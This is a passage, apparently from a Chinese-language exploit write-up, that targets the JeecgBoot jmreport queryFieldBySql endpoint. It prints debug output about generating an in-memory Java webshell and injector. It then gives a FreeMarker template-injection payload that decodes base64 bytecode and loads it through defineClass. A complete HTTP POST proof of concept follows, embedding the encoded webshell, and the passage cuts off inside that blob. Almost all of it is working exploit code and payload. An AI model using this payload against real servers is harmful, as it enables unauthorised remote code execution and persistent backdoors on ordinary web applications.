8AAwAlAHIAdQCcAJwAowCkAJoAswC6ALsAmgADABkAAABuABsAAAC+ABQAvwAXAMEAGwDCACUAxAApAMYAMADHADsAyABWAMkAXQDKAGAAxwBmAM0AaQDOAHIA0gB1ANAAdwDRAH4A0gCBANQAhgDVAI8A1wCVANgAnADaAKQA2wCmANwAswDgALsA4QC9AOIAGgAAAHoADAAzADMBAQECAAgAMAA2AV4BXwAHAHcABwBKAWAABwCmAA0ASgFhAAcAvQANAEoBYQAHAAAAygFFABwAAAAAAMoBXQEEAAEAAADKAWIBYwACAAAAygFkAOEAAwAUALYApwCoAAQAFwCzAWUApgAFABsArwFmAKgABgAoAAAALwAODkMHAHz+AAgHAHwHANMHAHz9ABcHAWcBLPkABQIIQgcAnAsNVAcAmg5HBwCaAAsAAAAIAAMAnACeAJoACAF5ABYAAQAHAAAAJQACAAAAAAAJuwACWbcBelexAAAAAQAZAAAACgACAAAAIQAIACIAAA==

[+] 调试信息:

内存马类名: org.apache.logging.ServletRequestLcyListener
注入器类名: org.springframework.sz.SignatureUtils
内存马字节流长度: 4020
注入器字节流长度: 11140
```

将生成的base64格式的内存马 替换payload 中bytecodeBase64的值。

```
{"sql":"call${\"freemarker.template.utility.ObjectConstructor\"?new()(\"javax.script.ScriptEngineManager\").getEngineByName(\"js\").eval(\"classLoader=java.lang.Thread.currentThread().getContextClassLoader();try{classLoader.loadClass('org.apachen.SOAPUtils').newInstance();}catch(e){clsString=classLoader.loadClass('java.lang.String');bytecodeBase64='这里填入base64的内存马';try{clsBase64=classLoader.loadClass('java.util.Base64');clsDecoder=classLoader.loadClass('java.util.Base64$Decoder');decoder=clsBase64.getMethod('getDecoder').invoke(base64Clz);bytecode=clsDecoder.getMethod('decode',clsString).invoke(decoder,bytecodeBase64);}catch(ee){try{datatypeConverterClz=classLoader.loadClass('javax.xml.bind.DatatypeConverter');bytecode=datatypeConverterClz.getMethod('parseBase64Binary',clsString).invoke(datatypeConverterClz,bytecodeBase64);}catch(eee){clazz1=classLoader.loadClass('sun.misc.BASE64Decoder');bytecode=clazz1.newInstance().decodeBuffer(bytecodeBase64);}}clsClassLoader=classLoader.loadClass('java.lang.ClassLoader');clsByteArray=(''.getBytes().getClass());clsInt=java.lang.Integer.TYPE;defineClass=clsClassLoader.getDeclaredMethod('defineClass',[clsByteArray,clsInt,clsInt]);defineClass.setAccessible(true);clazz=defineClass.invoke(classLoader,bytecode,0,bytecode.length);clazz.newInstance();};#{1};\")}","dbSource":"","type":"0"}
```

构造poc

```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 10.10.0.3:18088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Type: application/json
Content-Length: 100

{"sql":"call${\"freemarker.template.utility.ObjectConstructor\"?new()(\"javax.script.ScriptEngineManager\").getEngineByName(\"js\").eval(\"classLoader=java.lang.Thread.currentThread().getContextClassLoader();try{classLoader.loadClass('org.apachen.SOAPUtils').newInstance();}catch(e){clsString=classLoader.loadClass('java.lang.String');bytecodeBase64='yv66vgAAADEBewEAJW9yZy9zcHJpbmdmcmFtZXdvcmsvc3ovU2lnbmF0dXJlVXRpbHMHAAEBABBqYXZhL2xhbmcvT2JqZWN0BwADAQAMZ2V0Q2xhc3NOYW1lAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAARDb2RlAQAsb3JnLmFwYWNoZS5sb2dnaW5nLlNlcnZsZXRSZXF1ZXN0TGN5TGlzdGVuZXIIAAgBAA9nZXRCYXNlNjRTdHJpbmcBAApFeGNlcHRpb25zAQATamF2YS9pby9JT0V4Y2VwdGlvbgcADAEAEGphdmEvbGFuZy9TdHJpbmcHAA4BCoxINHNJQUFBQUFBQUFBSlZYK1hjVDF4WCtualh5eVBJUWdvZ05ncGF5aFVpeWJBVUN4TWlCWUJ1N2RpSUpnZ21wY2JxTXBiRWtrQ1ZuWm1Rd2FadDAzMHYzbHE3cGtycEwya0lLTW9SQ1NKdkNhVTdQYWZORC80bitBejM5b1UyL055UGJrbGQ2amozTGUvZCs3Nzd2ZnZlKzBWdi9mZTBXZ04yNEt4QXRtZG1ZUHFHbmMwYXNVTXBtODhWc2JNZ3dKd3VHZmR4NHJteFlkaUk5bGNoYnRsRTBUQlZDNFA3VCtxUWVLK2cwUERwNjJramJLandDTytYb3Vaamx1aTZFbVBQM0NqUStsaS9tN1VNQ25sRDRwSURTVzhvWUFtc1QrYUtSS28rUEd1WUpmYlRBa1VDaWxOWUxKM1V6TDkrcmc0cWR5MXNDSFluL0ord3VEU3A4ZmlpNGorR2I3dndSL3B1bEtTTWpzQ3VVV0NuNnZrbWphSGZKV05kYml5Y0VkdHlETjdkVFhYZVFtOC9yaGZ4NXVmTDZlUzc3enFXTkNUdGZLcXBvNFQ0enVxMExOSXowQ0RTbkM3cGxKVXA2eGpBRmdzNXFzU0lYZXZwNG9uZCtpbXMwamh0MnJrVGNUWWw1WU5NWUt6QkxzYVF6UnlzdjhjNmZGMWhYWStUZ2NNNlRMbGlTK3ZtWklkc2t1Wnp5bVlZMVVTcGF6TUpDdm5LMlBSRWI0R1Z1NjY0bHZkVHF0Z1VlV3RYSk1hVFB0bFg1VlBHZ3dJUDNoS2ZpSVdiNDN1SlZFYTdUdDd0M0ZXMENhNFpzUFgwbXFVOVVoYmd1YTlqMUN3bHNEWVZYbEFKMTJJR1lIN3Z3c0VCcmRuN2Rmck0wUG9meTFPcnN1bWdMRjFzMkN4cjI0QkUvR3JCWHdKOHpwRmhTK3JpaFlUKzJObkg0VVlFbVJqTmd1QXFybGtOZCtzT0xoelFjUUx3WklUQmp6UzdxU2IxUUp1eEJGNVlsN2t1WGlyYWVMMUpUbTJ0UmUzTzZPU1MzVVV3YlhlRlRHZzZqMjQ4b3FIWmxna3JVY01URjZCUFFHTm94M1dUQXRtRnFlSys3NkFBblJuWEwyTC8zaUpGMk9ranJVbUdQOUdoNEFrL0t6U2NFTml4VE9pcFNoS3VkVkhHc1Rna25jaVozcU9JNGxaQXVteVkxNkE0SlBCQ3FKY2NkSlRrbjhMUWZRMkRYYU9FR2VzbURjYzd1cmF2a09zZmFTdGJ3UGd4TDcxTUM0ZEJJWGNWM0xlTVRQaW03M0xOK0hNWDd1ZWFTUmlvK3lGeGxqREgyV21mWUJ6YVp0UXRzVmFSVmJLVEU1OGNIR1gxVytvOHhRU2VHai9WcHlHRkxFN0xJdTZYQUpCUjAwOGdrcXczbzhCTEpHRm5VYjhMTHR5a05aMUR3STROeGdZM0xXYWtvTVIrV1lYZW4wNFpsNWQwakluUktjdkVjVEQ4bVlNbUJRWmVjc3A4QlQ3Sk41b3VUcFRNMFBWQWJwWHVZMVVWWkhRb3ZIdEp3RGxNU24zMjB1V2ljSFN4YXRrNHhMNVREblBtSDhSRzVtNDl5ZGVwZWwxMjJaWW5WWlMyOGlJL0pzK3JqUkI0cmxLMWNUM2xzVENyL2svQTFJNEpQc1lqbkRndG1jQWM3T2pQUVQ2VjFMb0c0Y2kzUHhmYzVmRjRXeVJkODJDYXdaZDRnVlJvcXAzUDllYU9RcVRtaHZreFdKM1Z6SDN0ZVltWGJMdGZ5NGZwRHBicXNPN2ZidmUyWk85dnFNdTNBVlMwZm1TM2h4UllxdnNOMkl5dE5Lb3NuNitMaTRpNi9pKzlKYXIvUDJxNFJyUU1nMEw1SzM2dVBTTU1QOFNPWjBwY29RWGtZbENjTTB6bXBOZnhFTHBQQlR4ZmtlQmJURWVQTGZsekF6LzI0S0NYcUljQ0N4cnVTOW42SlgwbkhYL040elRqZGo5MmtwY2F3bG4wUFAzUFlISzF5c1dNOGI2VTdlcnFIK21hYnB1bkRKV0tNbFp6emdDZnFLZ3pNMHZncWZpLzNkNFZOMDEzZmxhZ1BGZmNrY2F0VHd6VzNoSzlYVzJsSDJjNFhPbnFjcnUzRERlcllUWUlieVUyV2hvdm13K3ZVZnE5VkdEWE9udEZ6NDFrZjNtQ1l4dzJ1SVMzL1JNVVBqTm02N3NPZnNZMnFWVUJmZUhqbHNjRXZXeUZQTnVkKzBMazM4b2xmZ0x3MjhhMmJIb0wzRFpFWnJJMEUvbmdWL1pIQW0xZlJHUW5jdVlySEwzT3FBZjZxRzZDaDJiazZMcnl2Y1lEdng3b3EzRDdIbm1NTEhRT09ZNnM3V1hXVVR3R3M1NVdkWWhaQ3ZNbllKTlRiYlJYc3ZvMVFNaEtkd2I1VU5ISUZuZGZ4V0FQdTRNcjhDeDhlcjZEM0lsNlNZLzNYTWRpQXVCSlU3dUJDSktoVWtJeDdiK0Rvc09jbW5ycUdaeW9ZbWNFSDRvMkJEd1ZHRzI4aU0rd0pHRVBEeXFzNFBUVHNsZGNLaW5FMXFOTFJEcXJCUnRvb3c1Nmdselkza0IzMnpPQXNEZVZqMEh0THZsVHcvRzFrNHI2Z3I0SVh2STUxbE1idG5QakVNKzNYOFdtQmFYamozbWtvcWN2Yy9HSGN4VnVrd1llLzRtKzhleHlLK3JsNW9JV2pHM0FmTmlLR0lMcXdpZGJ2d2dEZWpSRnN3UlRlZ3hlWXdGZVk1RGV3blRnN2liU0RPR0VpaGZCM2RrTko4Yk1rYjRDV0c0ampwV2VCV0p1WWhDbWtzSmw0S2hFMkUzTUxWK3ZDVjRtNlZmNFd3QzNpYm1jOEpINHVQVzlYMCtQRFg3alNUc2JmenRFZFVON2gwbDRWRFNwMnFRaXBpS2o4WGhFcVd2OE4wY09iekQwL3MzajlEQjJrSWx1ZG5BNXd4TXQ3VkNUYkFwKzloaThHdnNUTGJVU1Mwd2ltMm1yZWZIRmxHaDcrUlMvUnA0RUVQVUNNRm9hN1hjSnpzMnpTSEplby8yRFlFclZUSkNNVi9DRFZIbEJlUm1zNzlmTmpJcTJKSyswVi9DdzEvYzQvbzNlaDNjQ0Y0YllaVEw4ZVpaSi9FYVhESzVjWTN4cHV0SlZOeUUzSUhsSWdmeFBLWGFqWXk5bjluSCtVRnAyazlRRHBpNU8yZzZUa0VDazVUS3R1aC95OWpFUFMvaFVTcThpSThEVjgzYUd5RTkrZ0IzL0VFT21iK0Jidkt2Ry96VFI0SEZMWFFma1BWQlVYVldSU0tpNDBhVFhVQ2ZuWlZ0M3N2NWhMdVZrcmNQa2FyaWFqZ1JuRkZYS1VtbnN0U2hrcWpnemJYRzBhN3QrbFpPQVBOQ2MxdDFnS0dWb0szc25BODdKWVNGcmdkaTFNVUZrU3hLbmtkbjYzendwWENndjhDbTFrWmpzd1NPRSt3UmJ3Sko4U0RoK0hPTk5JY1VxNU5YRG1rUFBrNFh3RXZ5RXpDajJPa0szZk9uM0JtaE9laGQ4NWJMVzcvYU1vSlRWUEIvNEg5TXNMOExRUEFBQT0IABABAAY8aW5pdD4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYMABIAEwoADwAUAQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAFwEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEACGxpc3RlbmVyAQASTGphdmEvbGFuZy9PYmplY3Q7AQAHY29udGV4dAEACGNvbnRleHRzAQAQTGphdmEvdXRpbC9MaXN0OwEABHRoaXMBACdMb3JnL3NwcmluZ2ZyYW1ld29yay9zei9TaWduYXR1cmVVdGlsczsBABZMb2NhbFZhcmlhYmxlVHlwZVRhYmxlAQAkTGphdmEvdXRpbC9MaXN0PExqYXZhL2xhbmcvT2JqZWN0Oz47AQAOamF2YS91dGlsL0xpc3QHACQBABJqYXZhL3V0aWwvSXRlcmF0b3IHACYBAA1TdGFja01hcFRhYmxlDAASABYKAAQAKQEACmdldENvbnRleHQBABIoKUxqYXZhL3V0aWwvTGlzdDsMACsALAoAAgAtAQAIaXRlcmF0b3IBABYoKUxqYXZhL3V0aWwvSXRlcmF0b3I7DAAvADALACUAMQEAB2hhc05leHQBAAMoKVoMADMANAsAJwA1AQAEbmV4dAEAFCgpTGphdmEvbGFuZy9PYmplY3Q7DAA3ADgLACcAOQEAC2dldExpc3RlbmVyAQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMADsAPAoAAgA9AQALYWRkTGlzdGVuZXIBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KVYMAD8AQAoAAgBBAQAEa2V5MQEACGNoaWxkcmVuAQATTGphdmEvdXRpbC9IYXNoTWFwOwEAA2tleQEAC2NoaWxkcmVuTWFwAQAGdGhyZWFkAQASTGphdmEvbGFuZy9UaHJlYWQ7AQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEAB3RocmVhZHMBABNbTGphdmEvbGFuZy9UaHJlYWQ7BwBNAQAQamF2YS9sYW5nL1RocmVhZAcATwEAEWphdmEvdXRpbC9IYXNoTWFwBwBRAQATamF2YS91dGlsL0FycmF5TGlzdAcAUwoAVAApAQAKZ2V0VGhyZWFkcwgAVgEADGludm9rZU1ldGhvZAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9PYmplY3Q7DABYAFkKAAIAWgEAB2dldE5hbWUMAFwABgoAUABdAQAcQ29udGFpbmVyQmFja2dyb3VuZFByb2Nlc3NvcggAXwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaDABhAGIKAA8AYwEABnRhcmdldAgAZQEABWdldEZWDABnAFkKAAIAaAEABnRoaXMkMAgAaggARAEABmtleVNldAEAESgpTGphdmEvdXRpbC9TZXQ7DABtAG4KAFIAbwEADWphdmEvdXRpbC9TZXQHAHELAHIAMQEAA2dldAwAdAA8CgBSAHUBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsMAHcAeAoABAB5AQAPamF2YS9sYW5nL0NsYXNzBwB7CgB8AF0BAA9TdGFuZGFyZENvbnRleHQIAH4BAANhZGQBABUoTGphdmEvbGFuZy9PYmplY3Q7KVoMAIAAgQsAJQCCAQAVVG9tY2F0RW1iZWRkZWRDb250ZXh0CACEAQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwwAhgCHCgBQAIgBAAh0b1N0cmluZwwAigAGCgB8AIsBABlQYXJhbGxlbFdlYmFwcENsYXNzTG9hZGVyCACNAQAfVG9tY2F0RW1iZWRkZWRXZWJhcHBDbGFzc0xvYWRlcggAjwEACXJlc291cmNlcwgAkQgAHQEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uBwCUAQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWDAASAJYKAJUAlwEAIGphdmEvbGFuZy9JbGxlZ2FsQWNjZXNzRXhjZXB0aW9uBwCZAQAfamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbgcAmwEAK2phdmEvbGFuZy9yZWZsZWN0L0ludm9jYXRpb25UYXJnZXRFeGNlcHRpb24HAJ0BAAlTaWduYXR1cmUBACYoKUxqYXZhL3V0aWwvTGlzdDxMamF2YS9sYW5nL09iamVjdDs+OwEAE2phdmEvbGFuZy9UaHJvd2FibGUHAKEBAAljbGF6ekJ5dGUBAAJbQgEAC2RlZmluZUNsYXNzAQAaTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBAAVjbGF6egEAEUxqYXZhL2xhbmcvQ2xhc3M7AQALY2xhc3NMb2FkZXIBABdMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcgcAqwEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwwArQCuCgBQAK8BAA5nZXRDbGFzc0xvYWRlcgwAsQCHCgB8ALIMAAUABgoAAgC0AQAJbG9hZENsYXNzAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwwAtgC3CgCsALgBAAtuZXdJbnN0YW5jZQwAugA4CgB8ALsMAAoABgoAAgC9AQAMZGVjb2RlQmFzZTY0AQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgwAvwDACgACAMEBAA5nemlwRGVjb21wcmVzcwEABihbQilbQgwAwwDECgACAMUIAKUHAKQBABFqYXZhL2xhbmcvSW50ZWdlcgcAyQEABFRZUEUMAMsAqAkAygDMAQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DADOAM8KAHwA0AEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAcA0gEADXNldEFjY2Vzc2libGUBAAQoWilWDADUANUKANMA1gEAB3ZhbHVlT2YBABYoSSlMamF2YS9sYW5nL0ludGVnZXI7DADYANkKAMoA2gEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwA3ADdCgDTAN4BAAdvYmplY3RzAQATW0xqYXZhL2xhbmcvT2JqZWN0OwEACWxpc3RlbmVycwEACWFycmF5TGlzdAEAFUxqYXZhL3V0aWwvQXJyYXlMaXN0OwEACmlzSW5qZWN0ZWQBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KVoMAOUA5goAAgDnAQAbYWRkQXBwbGljYXRpb25FdmVudExpc3RlbmVyCADpAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DABYAOsKAAIA7AEAHGdldEFwcGxpY2F0aW9uRXZlbnRMaXN0ZW5lcnMIAO4HAOEBABBqYXZhL3V0aWwvQXJyYXlzBwDxAQAGYXNMaXN0AQAlKFtMamF2YS9sYW5nL09iamVjdDspTGphdmEvdXRpbC9MaXN0OwwA8wD0CgDyAPUBABkoTGphdmEvdXRpbC9Db2xsZWN0aW9uOylWDAASAPcKAFQA+AoAVACCAQAcc2V0QXBwbGljYXRpb25FdmVudExpc3RlbmVycwgA+wEAB3RvQXJyYXkBABUoKVtMamF2YS9sYW5nL09iamVjdDsMAP0A/goAVAD/AQABaQEAAUkBAA1ldmlsQ2xhc3NOYW1lAQASTGphdmEvbGFuZy9TdHJpbmc7AQAEc2l6ZQEAAygpSQwBBQEGCgBUAQcBABUoSSlMamF2YS9sYW5nL09iamVjdDsMAHQBCQoAVAEKAQAMZGVjb2RlckNsYXNzAQAHZGVjb2RlcgEAB2lnbm9yZWQBAAliYXNlNjRTdHIBABRMamF2YS9sYW5nL0NsYXNzPCo+OwEAFnN1bi5taXNjLkJBU0U2NERlY29kZXIIAREBAAdmb3JOYW1lDAETALcKAHwBFAEADGRlY29kZUJ1ZmZlcggBFgEACWdldE1ldGhvZAwBGADPCgB8ARkBABBqYXZhLnV0aWwuQmFzZTY0CAEbAQAKZ2V0RGVjb2RlcggBHQEABmRlY29kZQgBHwEAIGphdmEvbGFuZy9DbGFzc05vdEZvdW5kRXhjZXB0aW9uBwEhAQAOY29tcHJlc3NlZERhdGEBAANvdXQBAB9MamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW07AQACaW4BAB5MamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbTsBAAZ1bmd6aXABAB9MamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW07AQAGYnVmZmVyAQABbgEAHWphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtBwEsAQAcamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbQcBLgEAHWphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtBwEwCgEtACkBAAUoW0IpVgwAEgEzCgEvATQBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYMABIBNgoBMQE3AQAEcmVhZAEABShbQilJDAE5AToKATEBOwEABXdyaXRlAQAHKFtCSUkpVgwBPQE+CgEtAT8BAAt0b0J5dGVBcnJheQEABCgpW0IMAUEBQgoBLQFDAQADb2JqAQAJZmllbGROYW1lAQAFZmllbGQBABlMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQAEZ2V0RgEAPyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBSQFKCgACAUsBABdqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZAcBTQoBTgDWCgFOAHUBAB5qYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb24HAVEBACBMamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uOwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsMAVQBVQoAfAFWAQANZ2V0U3VwZXJjbGFzcwwBWAB4CgB8AVkKAVIAFAEADHRhcmdldE9iamVjdAEACm1ldGhvZE5hbWUBAAdtZXRob2RzAQAbW0xqYXZhL2xhbmcvcmVmbGVj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